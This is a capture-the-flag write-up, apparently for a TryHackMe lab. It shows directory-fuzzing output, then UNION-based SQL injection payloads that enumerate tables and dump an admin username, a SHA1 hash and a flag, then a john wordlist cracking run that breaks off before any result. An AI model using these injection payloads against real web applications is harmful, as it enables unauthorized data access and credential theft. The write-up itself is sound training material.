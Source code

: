 ```bash
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                                                                                                  
________________________________________________                                                                                                                         
                                                                                                                                                                         
.htpasswd               [Status: 403, Size: 287, Words: 20, Lines: 10]                                                                                                   
.htaccess.php           [Status: 403, Size: 287, Words: 20, Lines: 10]                                                                                                   
.htpasswd.php           [Status: 403, Size: 287, Words: 20, Lines: 10]                                                                                                   
.htaccess               [Status: 403, Size: 287, Words: 20, Lines: 10]                                                                                                   
assets                  [Status: 301, Size: 333, Words: 20, Lines: 10]                                                                                                   
search.php              [Status: 200, Size: 838, Words: 162, Lines: 28]                                                                                                  
server-status           [Status: 403, Size: 287, Words: 20, Lines: 10]     
```
The results gave us a page `search.php`, on navigating we have interface that allow us to search through a collection of items. As its a search functionality, we can try using some classic SQL Injection Payloads.
Using `' or 1=1-- -`, we got some results. This confirms the page was vulnerable to SQLi.

#### Exploiting SQLi
For exploitation, we can use [UNION-based](https://portswigger.net/web-security/sql-injection/union-attacks) Injection attacks. Starting off with `' UNION SELECT NULL-- -` shows nothing in the results. That’s okay. We’ll keep adding NULLs until we get a successful return. 
With the query `' UNION SELECT NULL,NULL,NULL,NULL-- -` we see some results. Now we now there are four columns.

![image](https://user-images.githubusercontent.com/43528306/142861066-1857c4b7-eb54-4a36-800e-c1073f1ae798.png)

Next, we need to find out the tables, we can use `' UNION SELECT 1,table_name,3,4 from information_schema.tables where table_schema=database()`, this will show all the tables in current database.
The `admin` table was interesting, we can futher enumerate and dump the data for this table.

![image](https://user-images.githubusercontent.com/43528306/142861462-6077a052-c776-42d0-b73e-e3d9e893d5e3.png)

The table contain 3 columns, *ID, Username, Hash*. We can dump the data using, `' UNION SELECT 1,id,username,hash from admin-- -`.

```bash
1:xXUltimateCreeperXx:88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01,4:web_flag:THM{bbe315906038c3a62d9b195001f75008}
```

### Cracking the Hash
We have a username and password hash from the database dump. Running `hashid`on the hash, the hash was **sha1**. We can crack it using john.
```bash
 john --wordlist=rockyou.txt hash  
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
```